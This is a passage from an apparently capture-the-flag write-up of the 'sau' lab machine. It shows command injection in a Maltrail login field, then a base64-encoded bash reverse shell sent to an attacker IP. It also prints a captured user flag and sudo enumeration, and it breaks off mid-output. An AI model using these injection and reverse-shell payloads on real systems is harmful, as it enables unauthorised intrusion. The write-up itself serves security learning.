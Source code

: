Checking if the command is working
```shell
curl 'http://10.129.248.192:55555/rei3/login' --data 'username=;`nc 10.10.16.9 80`'
> It connects to my netcat listener.
```

Crafting a reverse shell is tricky, after many tries, realizing it needs to be encoded.
```shell
/bin/bash -i >& /dev/tcp/10.10.16.9/9001 0>&1

# Encode the rev shell to Base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx

# Payload to be inserted in the username
echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx"|base64 -d|bash
> It needs to be decoded inside.

# Executing the exploit
curl 'http://10.129.248.192:55555/rei3/login' --data 'username=;`echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx"|base64 -d|bash`'
```

<br>

### User.txt

Now we have access to user puma.
```shell
puma@sau:/opt/maltrail$ ls ~
ls ~
user.txt
puma@sau:/opt/maltrail$ cat ~/user.txt
cat ~/user.txt
6131ab94607e405b982ea44b57a5007b
```

<br>

## Path to Power (Gaining Administrator Access)

Skipping other enumeration. 

Checking what the user `puma` can do.
```shell
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Puma can use `sudo` through:
```shell
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service               
sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2023-07-10 16:38:56 UTC; 1 day 10h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 867 (python3)
      Tasks: 8 (limit: 4662)
     Memory: 20.6M
     CGroup: /system.slice/trail.service
             ├─ 867 /usr/bin/python3 server.py
```